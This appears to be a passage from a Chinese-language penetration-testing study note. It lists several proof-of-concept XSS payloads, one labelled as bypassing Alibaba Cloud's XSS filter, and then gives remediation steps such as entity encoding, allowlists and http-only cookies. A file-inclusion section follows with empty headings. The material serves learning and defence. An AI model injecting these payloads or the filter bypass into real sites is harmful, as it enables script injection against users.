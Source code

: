 ```html
<marquee/onstart=confirm(1)>
<details/open/ontoggle=top["al"+"ert"](1)> 谷歌浏览器 【绕阿里云XSS】
<svg/onload=prompt(1)>
<style onload=alert(1)>
<iframe src=javascript:alert`1`>
<body onload=prompt(1);>
<select autofocus onfocus=alert(1)>
```

来源：http://www.loongten.com/2019/12/29/pentest-learn-xss-bypass/

https://blog.csdn.net/nigo134/article/details/118827542



#### 修复方案

1.将用户的输入进行html实体编码

2.过滤转义特殊字符

3.设置标签和属性的白名单，根据白名单的标签和属性对数据进行过滤

4.在Cookie设置http-only属性，减小危害



### 文件包含

### 原理

#### 可能存在该漏洞的函数？

#### 如何挖掘该漏洞？

#### 危害

#### 修复方案

